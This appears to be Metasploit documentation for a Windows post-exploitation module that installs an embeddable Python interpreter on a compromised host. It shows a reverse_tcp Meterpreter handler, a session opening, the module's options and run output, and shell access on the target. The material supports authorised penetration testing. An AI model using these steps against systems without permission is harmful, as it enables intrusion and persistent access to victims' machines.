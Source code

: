 ## Overview

This module downloads an embeddable Python3 distribution onto the target
file system, granting pentesters access to a lightweight Python
interpreter. This module does not require administrative privileges or
user interaction with installation prompts.
This is useful in cases where the in-memory python interpreter might
be limited.  If you only want to run a python script while connected,
see https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/python-extension.html.

## Tested Version
This module has been tested against:

1. Windows 10, 1903

## Verification Steps

  1. Start msfconsole
  2. Get a Meterpreter session
  3. Do: `use post/windows/manage/install_python`
  4. Do: `set SESSION #`
  5. Optional Do: `set PYTHON_VERSION`
  6. Optional Do: `set PYTHON_URL`
  7. Optional Do: `set FILE_PATH`
  8. Do: `run`


## Options
### PYTHON_VERSION

  Specifies the Python version you would like to download. Downloads Python version 3.8.2 by default.

### PYTHON_URL

  Specifies the URL used to download the Python embeddable zip file.

### FILE_PATH

  Specifies the directory to place the Python embeddable zip file.
  Places Python zip file in the current working directory by default.

### CLEANUP

  If true, this option will delete the Python zip file as well as its extracted contents. It will also terminate running processes with name 'python', as you cannot delete the Python interpreter if it is actively running.

## Scenarios

Get initial access: Create a Meterpreter exe using msfvenom, then transfer it to the target system via web server, SMB, etc. Execute the payload to get a session.

    msf > handler -H 0.0.0.0 -P 4444 -p windows/meterpreter/reverse_tcp
    [*] Payload handler running as background job 0.

    [*] Started reverse TCP handler on 0.0.0.0:4444
    msf >
    [*] Sending stage (180291 bytes) to 192.168.13.129
    [*] Meterpreter session 1 opened (192.168.13.130:4444 -> 192.168.13.129:50069) at 2020-03-04 20:32:59 -0500

Use the post module to install Python on the target filesystem

    msf > use post/windows/manage/install_python
    msf post(windows/manage/install_python) > set SESSION 1
    SESSION => 1
    msf post(windows/manage/install_python) > exploit

    [*] Downloading Python embeddable zip from https://www.python.org/ftp/python/3.8.2/python-3.8.2-embed-win32.zip
    [+] Compressed size: 1112
    [*] Extracting Python zip file: .\python-3.8.2-embed-win32.zip
    [+] Compressed size: 952
    [*] Ready to execute Python; spawn a command shell and enter:
    [+] .\python-3.8.2-embed-win32\python.exe -c "print('Hello, world!')"
    [!] Avoid using this python.exe interactively, as it will likely hang your terminal; use script files or 1 liners instead
    [*] Post module execution completed

Verify Python works

    msf post(windows/manage/install_python) > sessions -i 1
    [*] Starting interaction with 1...

    meterpreter > shell
    Process 2688 created.
    Channel 5 created.
    Microsoft Windows [Version 10.0.17763.1039]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\Users\buddha\AppData\Local\Temp>.\python-3.8.2-embed-win32\python.exe -c "print('Hello, world!')"
    .\python-3.8.2-embed-win32\python.exe -c "print('Hello, world!')"
    Hello, world!

Note that running this Python interpreter interactively may hang your command shell.
